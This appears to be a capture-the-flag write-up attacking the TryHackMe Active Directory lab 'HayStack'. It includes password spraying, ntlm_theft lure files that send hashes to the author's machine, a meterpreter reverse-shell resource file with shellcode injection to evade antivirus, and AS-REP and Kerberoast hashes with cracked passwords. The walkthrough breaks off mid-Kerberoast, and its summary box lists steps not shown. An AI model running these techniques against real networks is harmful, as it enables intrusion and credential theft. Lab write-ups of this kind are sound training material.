<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows (AD, `thm.corp`, `HAYSTACK` / `HayStack`), **Difficulty:** Hard

</div>

<div class="callout callout-abstract">

**Attack Path**

1. SMB `data` share → `onboarding` slide deck ends with names/emails and the **initial password `ResetMe123!`**. Spray → valid for **`lily`**.
2. `lily`'s share access / notes → **`AUTOMATE : Passw0rd1`** → `evil-winrm`.
3. `ldapdomaindump` / `GetNPUsers` as `AUTOMATE` → **AS-REP roast `TABATHA_BRITT`** → crack → **`TABATHA_BRITT : marlboro(1985)`**.
4. **BloodHound** shows an **ACL chain**: `TABATHA_BRITT` → `SHAWNA_BRAY` → `CRUZ_HALL` → **`DARLA_WINTERS`** (each has `ForceChangePassword` on the next). Walk it with `net rpc password`.
5. `DARLA_WINTERS` has **Constrained Delegation** to `cifs/HayStack.thm.corp` → **S4U** impersonate Administrator → `wmiexec` → **root**.

</div>

<div class="callout callout-key">

**Credentials**

- initial: `ResetMe123!` (→ `lily`)
- `AUTOMATE` : `Passw0rd1`
- `TABATHA_BRITT` : `marlboro(1985)`
- ACL chain targets get set to `BaphometwasHere420@$`

</div>

---

## Full Walkthrough

This machine will be simulating hacking into an active directory enviorment



Found some shares that we can access but when it comes to listing anything inside of them we do not have permission.

Domain information

```
Domain Name: THM
Domain Sid: S-1-5-21-1966530601-3185510712-10604624

```



I was able to locate two users `administrator:guest`

Using the following command I was able to determin some of the users on the AD network.

```bash
python3 GetNPUsers.py -usersfile /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -no-pass -dc-ip 10.10.1.130 THM/
```

Rustscan results

```bash
Open 10.10.1.130:53
Open 10.10.1.130:88
Open 10.10.1.130:135
Open 10.10.1.130:139
Open 10.10.1.130:389
Open 10.10.1.130:464
Open 10.10.1.130:445
Open 10.10.1.130:593
Open 10.10.1.130:636
Open 10.10.1.130:3389
Open 10.10.1.130:5985
Open 10.10.1.130:9389
Open 10.10.1.130:49671
Open 10.10.1.130:49669
Open 10.10.1.130:49670
Open 10.10.1.130:49676
Open 10.10.1.130:49703
Open 10.10.1.130:49673
```

Initial nmap scan

```bash
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain?       syn-ack
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-04-03 04:04:07Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: HAYSTACK
|   DNS_Domain_Name: thm.corp
|   DNS_Computer_Name: HayStack.thm.corp
|   DNS_Tree_Name: thm.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-03T04:06:26+00:00
| ssl-cert: Subject: commonName=HayStack.thm.corp
| Issuer: commonName=HayStack.thm.corp
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-25T21:01:31
| Not valid after:  2024-07-26T21:01:31
| MD5:   1593 b46f 8770 a73a 9649 f3ec e9ad c968
| SHA-1: 9d45 4568 8ee5 2758 e3cc 26ff e0ca 23db 5ae6 017e
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQYX4tgCrderNB4R+8ZsmEBTANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFIYXlTdGFjay50aG0uY29ycDAeFw0yNDAxMjUyMTAxMzFaFw0y
| NDA3MjYyMTAxMzFaMBwxGjAYBgNVBAMTEUhheVN0YWNrLnRobS5jb3JwMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEApK21ITU7iV1Yu2/DdUVw5vAc/DyD
| SF9w27iyDoRL85CgxAkLCE9XBxyT3qNbNUqeRBefM9MmBbJ/jYu29zrDOyA8CrP5
| IfwjLJrHcM8SzyABPGudOdRFf1zKbR0coVhfEZtgIy81+412CFDTYf3nuXwJR3sV
| 1R+DJLUmj9yfvvXpSzzZLj3t2mAiyAPZHCuALOyw3bmh7zKe0+//hcnvrm8f2Hkj
| ucqukdj9Dbq+cqfjTIbwitvkyB9OOoII0HwQWZ026f39ZkB03296If7QMnRexyEg
| udOOK57aMUMfNmDkLmVFJrN/txa+7ghoSRnhpZCQuUFwXlkAO6o3LZwECQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBACVA2CvbsLEtSlT+tpousDWKBzfJQ4BpagvEJ0JO5Fd2GnMfXR9Z
| Oh4V4pMmb+b/NeBfrJ/7RoU/pSLxGhnd8kha1mv4UouY97H5WlORLO15r1H7gfvh
| ++C4MU+XKAeuiCHGSfecy1DZITt9jpuNf3eddYb65pSAUWU7QkJv9V6KvKNgzDfV
| nQogWNc7sdbHYlxHgBMs5CS0CivROnlcO9gLpKZlWOZTi+4gERTfLNz2ZeVSW9e+
| HxXgn7sOWLvybZ+1vTSCUguD+Ym4CLTor8N8ud+4FE8qews+EBBm5XNmn8yDJCU9
| Ct+iYlQVJMreg70HXzvODmD+sqzu7ijcVFo=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-04-03T04:07:05+00:00; -1s from scanner time.
Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38852/tcp): CLEAN (Timeout)
|   Check 2 (port 48636/tcp): CLEAN (Timeout)
|   Check 3 (port 64918/udp): CLEAN (Timeout)
|   Check 4 (port 3581/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-03T04:06:30
|_  start_date: N/A
```

Inside of the data share there are some files there in a directory called onboarding. There I had taken a look into the slides presentation first and saw that there is a little message at the end with some names emails and a password! we can possible do a password spray or something of the sort.





Here is all the information we got from this slides presentation.

```
Message was directed to LILY ONEILL

Initial password is ResetMe123!
```

Using `crackmapexec` I was able to find that this password is still valid on the Machine IP `10.10.1.130` Under the username `lily`.

```bash
SMB         10.10.1.130     445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         10.10.1.130     445    HAYSTACK         [-] thm.corp\guest:ResetMe123! STATUS_LOGON_FAILURE 
SMB         10.10.1.130     445    HAYSTACK         [-] thm.corp\administrator:ResetMe123! STATUS_ACCOUNT_RESTRICTION 
SMB         10.10.1.130     445    HAYSTACK         [+] thm.corp\lily:ResetMe123! 
SMB         10.10.1.130     445    HAYSTACK         [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```bash
crackmapexec smb 10.10.1.0/24 -u users.lst -p 'ResetMe123!' --shares
```

I tried using different tools in the `impacket` suite and nothing with these credentials so far.

Since we are also dealing with smb I tried using [ntlm theif](https://github.com/Greenwolf/ntlm_theft) with this I had created a series of files when interacted with responds back to my server and gives me the `ntlm` hashes.



```bash
python3 ntlm_theft.py -g all -s 10.6.59.97 -f baphomet
```

I then uploaded the `lnk` file to the `onboarding` folder on the `smb share`.



After a little bit I get the hashes



I then used `hashcat` to crack this hash.



```bash
hashcat -m 5600 -a 0 hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O
```

```
AUTOMATE:Passw0rd1
```

Was able to successfully login.



```bash
evil-winrm --user AUTOMATE -p 'Passw0rd1' -i 10.10.1.130
```



I had tried running a `msfvenom` payload and saw that there is an AV that is enabled.

Lets attempt to generate some shellcode and encrypt it afterwards inject it into a process like `explorer.exe`.

I had used this `main.rc` that I had quickly created.

```bash
use windows/x64/meterpreter_reverse_tcp
set LHOST tun0
set LPORT 9001
set EXITFUNC thread
set ENCODER x64/xor
generate -f raw -o meter.bin
use multi/handler
set LHOST tun0
set LPORT 9001
set EXITFUNC thread
run -j
```

This generates an a `x64/xor` encoed shellcode file which we will then inject that shellcode into a running process to get a `meterpreter shell` .





Using [This GIthub Repo](https://github.com/s0i37/shellcode_inject) you can find the file to `shellcode_inject64.exe`. I had started the `notepad` process found the `PID` then injected the shellcode into it.

I tried enumerating the system a bit more but then decided to focus on the Active Directory part of this entire hack.

Since we have a set of credentials for a domain user, we can use them to enumerate the domain using LDAP tools. We can use for example `ldapdomaindump` to dump information about the domain including but not limited to users, groups, computers, and etc. 

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/reset] - [Wed Apr 03, 10:10]
└─[$]> ldapdomaindump 10.10.197.78 -u 'thm.corp\AUTOMATE' -p 'Passw0rd1'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/reset] - [Wed Apr 03, 10:10]
└─[$]> jq -r '.[].attributes.sAMAccountName[0]' domain_users.json
AUTOMATE
RAQUEL_BENSON
LEANN_LONG
TREVOR_MELTON
AUGUSTA_HAMILTON
TED_JACOBSON
3966486072SA
MARION_CLAY
MORGAN_SELLERS
3811465497SA
CHRISTINA_MCCORMICK
HORACE_BOYLE
LETHA_MAYO
CHERYL_MULLINS
LILY_ONEILL
ANDY_BLACKWELL
DARLA_WINTERS
RICO_PEARSON
TABATHA_BRITT
LINDSAY_SCHULTZ
STEWART_SANTANA
HOWARD_PAGE
CRUZ_HALL
MARCELINO_BALLARD
DANIEL_CHRISTENSEN
ROSLYN_MATHIS
JULIANNE_HOWE
FANNY_ALLISON
MITCHELL_SHAW
MICHEL_ROBINSON
ELLIOT_CHARLES
DEANNE_WASHINGTON
CYRUS_WHITEHEAD
CECILE_WONG
SHAWNA_BRAY
TRACY_CARVER
ERNESTO_SILVA
3091731410SA
krbtgt
Guest
Administrator
```

[GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) can be used to retrieve domain users who do not have a “Do not require Kerberos preauthentication” set and ask for their TGTs without knowing their passwords. It is then possible to attempt to crack the session key sent along with the ticket to retrieve the user password. This attack is known as [ASREProast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast).

```bash
┌─[abadd0n@EX3CP01S0N] - [~/impacket/examples] - [Wed Apr 03, 10:13]
└─[$]> python3 GetNPUsers.py thm.corp/AUTOMATE     
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
Name           MemberOf                                                      PasswordLastSet             LastLogon                   UAC      
-------------  ------------------------------------------------------------  --------------------------  --------------------------  --------
ERNESTO_SILVA  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-07-18 12:21:44.224354  <never>                     0x410200 
TABATHA_BRITT  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-08-21 16:32:59.571306  2023-08-21 16:32:05.792734  0x410200 
LEANN_LONG     CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-07-18 12:21:44.161807  2023-06-16 08:16:11.147334  0x410200 
```

Since these three users are in the same group, we can grab their TGT hashes by simply running the following command.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/impacket/examples] - [Wed Apr 03, 10:14]
└─[$]> python3 GetNPUsers.py thm.corp/TABATHA_BRITT        
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Cannot authenticate TABATHA_BRITT, getting its TGT
$krb5asrep$23$TABATHA_BRITT@THM.CORP:e35404c9832521c5ba67c5344aa45b83$0f416ef52271e1ffb709ac824ce2f945c3f179fff3f4449faef293fe66b74ed0baff9ca1f8a14e182a89175fa8d5e5ebdf95e9351ef8200862a9defa5bb60c7f439cbe5626cea8fed87c92a2c0f270642de04c42daf27bbb8b3a600e1a8470aa6b9baae097f5e7c1073461d279d8ed044c0ce6a4c90471052b212edc970ca3b7e491c5f840fb1d000d9165d1785debf259763961f61a4917202f563ba1aced3611663200c45a8ca59a76202162beb05b20a5f5511511e2d5fa251fce5940c0a8a3250844207aa832a42d47570c5cbaf75a4869aa04b825efc6ac2bff7de058ee061caaf6
```

Next we can crack this hash using `hashcat`.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/reset] - [Wed Apr 03, 10:16]
└─[$]> hashcat -m 18200 -a 0 hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force

$krb5asrep$23$TABATHA_BRITT@THM.CORP:e35404c9832521c5ba67c5344aa45b83$0f416ef52271e1ffb709ac824ce2f945c3f179fff3f4449faef293fe66b74ed0baff9ca1f8a14e182a89175fa8d5e5ebdf95e9351ef8200862a9defa5bb60c7f439cbe5626cea8fed87c92a2c0f270642de04c42daf27bbb8b3a600e1a8470aa6b9baae097f5e7c1073461d279d8ed044c0ce6a4c90471052b212edc970ca3b7e491c5f840fb1d000d9165d1785debf259763961f61a4917202f563ba1aced3611663200c45a8ca59a76202162beb05b20a5f5511511e2d5fa251fce5940c0a8a3250844207aa832a42d47570c5cbaf75a4869aa04b825efc6ac2bff7de058ee061caaf6:marlboro(1985)
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$TABATHA_BRITT@THM.CORP:e35404c9832521...1caaf6
Time.Started.....: Wed Apr  3 10:16:19 2024, (3 secs)
Time.Estimated...: Wed Apr  3 10:16:22 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2226.9 kH/s (1.42ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 5768340/14344384 (40.21%)
Rejected.........: 1172/5768340 (0.02%)
Restore.Point....: 5764244/14344384 (40.18%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: marleypup -> markjonas
Hardware.Mon.#1..: Temp: 39c Util: 81%

Started: Wed Apr  3 10:16:18 2024
Stopped: Wed Apr  3 10:16:23 2024
```

We now have the credentials `TABATHA_BRITT@THM.CORP:marlboro(1985)`

#### ==GetUserSPNs==

[GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) can be used to obtain a password hash for user accounts that have an SPN (service principal name). If an SPN is set on a user account it is possible to request a Service Ticket for this account and attempt to crack it in order to retrieve the user password. This attack is named [Kerberoast](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast). This script can also be used for [Kerberoast without preauthentication](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#kerberoast-w-o-pre-authentication).

I had to run this a couple times for it to work but we had gotten the following results.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/impacket/examples] - [Wed Apr 03, 10:21]
└─[$]> python3 GetUserSPNs.py thm.corp/AUTOMATE:Passw0rd1 -dc-ip 10.10.197.78 -request
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

ServicePrincipalName  Name               MemberOf                                                      PasswordLastSet             LastLogon                   Delegation  
--------------------  -----------------  ------------------------------------------------------------  --------------------------  --------------------------  -----------
MSSQL/HAYSTACK        TRACY_CARVER       CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 12:05:53.879633  <never>                                 
kafka/BDEWVIR1000000  CYRUS_WHITEHEAD    CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 12:05:54.332753  <never>                                 
POP3/BDEWVIR1000000   DEANNE_WASHINGTON  CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 12:05:54.488998  <never>                                 
https/HAYSTACK        FANNY_ALLISON      CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 12:05:55.067142  <never>                                 
kafka/HAYSTACK        FANNY_ALLISON      CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 12:05:55.067142  <never>                                 
CIFS/BDEWVIR1000000   MARCELINO_BALLARD  CN=AN-173-distlist1,OU=GOO,OU=People,DC=thm,DC=corp           2023-06-12 12:05:55.645235  <never>                                 
POP3/HAYSTACK         DARLA_WINTERS      CN=Domain Computers,CN=Users,DC=thm,DC=corp                   2023-07-18 12:21:44.443061  2023-07-18 12:28:56.952295  constrained 
CIFS/HAYSTACK         3811465497SA       CN=Remote Management Users,CN=Builtin,DC=thm,DC=corp          2023-06-12 12:05:58.082696  <never>                                 
MSSQL/BDEWVIR1000000  MARION_CLAY        CN=Protected Users,CN=Users,DC=thm,DC=corp                    2023-06-12 12:05:58.379575  <never>                                 
ftp/HAYSTACK          MARION_CLAY        CN=Protected Users,CN=Users,DC=thm,DC=corp                    2023-06-12 12:05:58.379575  <never>                                 


$krb5tgs$23$*TRACY_CARVER$THM.CORP$thm.corp/TRACY_CARVER*$1d7cc63fc1c355c73fda1576ce844d6e$648fb6b0b3d2b4cbc38960ef5e9cd6aa559bec7d4fa8f561db025b7817b38825d6a967c0b63866450f0849b496abcc51c80e16d26f1e4cef2f60394f76c9192d51b59048e81e46a71b7e2d70dfab177b0d71dcc33e048d420553f8b1d4a6f42c6d8de203dfff0ad06d0b1c183dbc19a29bae9b532976c9a4296d3eb58c067ab036ec49c2b6c947a83194d6ac42f2e26979720e3d28fcdd69c6818fba55e2db6e39376854b1a28eb9a9def739e1ea9d2d2dd66047cc181be391378aec9b6791ed59a2dde1082e178810fb2f50c7dcbebb61b50cf6b52ea17e556c8e6a37d155cb63f916572d9c1b3bb1dfa7fae2f62291303e6f090c94b892680d09926e4e0e41904130d45adfab68861218047b6641655399f4482aa1e7ef87797a33112b2e0c5096e3aad85a633f13f46c9da106459da415df757d73902326571f9c9adf9339c678d7544549d43884a41c8b9ca2da1e7d0e44248e66952fcf58eb012a99c2a24fccc2bbccc7312ef77614c33ccbd505c939a92ea6bc04d482549e512537c1ad71527c91b9ae92c87fea8cae4dd01671180c416b417de8b7e4b0582ffe4e0e126a2a15ac8f53c1f9bee0f3d5295561d512194231dd95e042e53b0beb28e5c3270302d9479790e5ff6479a210168555a1547ea91a0fca47269697e0661802c66e91a7fcfc14ffd603047d8b911315e5bec84e713b09b776723874e432e086838c6694a05824081d7eaf2a084af31f456770ae954748e145a1a8da9c27dbea1ea5cf17ff29275f9a05b99a263a3753321b4a682a1da469f1f051bda8d59d0bc380499317509e5b3082295b38b0ecc5ba2e9ab7411ec9cc41739373a7501db5a4b822a41d29194cfce37ba144b3942f4e3150b4138a534c8249a0a5078943cc431a1c76f126d957e78d7440ef058d55f160c663ea696f6d3bdcab7ce906f54362de7b7f386eea3e05e17eba675aa0eeccc5a9678d395ef02415a2b040897083319ee04ed053e6531f66d681b9c1d2a3f4ba1ccfa18da0e3707951ffd7a4b2f211f165a4fe620dad617b6118ff428acb6c81a4aad859961b932bf81cc52bf4921e8f8e4fe99097bc0b2c06f60448cc08d645b4d55bd8ed7360bdd0f69389317ac12145577718514fe5132dfaf0c6283cbaed71cf191502c11c8159af01dd1a9f74d42a3c732cf95351bd4607ae2f500d6fd6b1d3213ee94b9c010be7cea39ba169b2456762b513966d9414fc26cf8fedc9e0a8c9d96e14b7fb0926f399754d314070676c5b9e826f75ab27f86dcf51988eb9db3624ad92ba5d3c29ea406526019ebe9984a8faada57a74e21c7efc8f6df39aaaabb46eb28d018f0aa2d3af467c28a8691a33c5978a660e1b52c20b177c52f310092bc50b5f2521a259300ab03646de157a703779b484775ecab78708150931f9831590d374363cdb481f0d0d6482d72e
